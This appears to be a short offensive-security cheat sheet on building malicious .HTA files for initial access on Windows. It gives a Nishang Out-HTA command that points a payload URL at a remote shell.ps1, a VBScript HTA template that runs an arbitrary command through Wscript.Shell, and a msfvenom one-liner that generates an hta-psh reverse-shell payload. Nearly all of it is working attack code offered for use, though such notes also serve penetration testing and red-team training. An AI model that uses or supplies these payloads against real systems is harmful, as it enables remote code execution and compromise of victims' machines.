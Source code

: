 ```yaml
---
description: .HTA exploit
---
```


## Nishang Out-HTA.ps1

**REQUIREMENT:**

* Needs a Windows system to generate payload.
* [samratashok/nishang/Out-HTA.ps1](https://github.com/samratashok/nishang/blob/master/Client/Out-HTA.ps1)

```bash
PS> . .\Out-HTA.ps1
PS> Out-HTA -PayloadURL http://IP/shell.ps1
HTA written to \WindDef_WebInstall.hta
```

## Manual Script

```bash
<script language="VBScript">
	Function DoStuff()
		Dim wsh
		Set wsh = CreateObject("Wscript.Shell")
		wsh.run "COMMAND"
		Set wsh = Nothing
	End Function

DoStuff
self.close
</script>
```

## msf

```bash
msfvenom -p OS_SPECIFIC_PAYLOAD LHOST= LPORT= -f hta-psh -o FILE.hta
```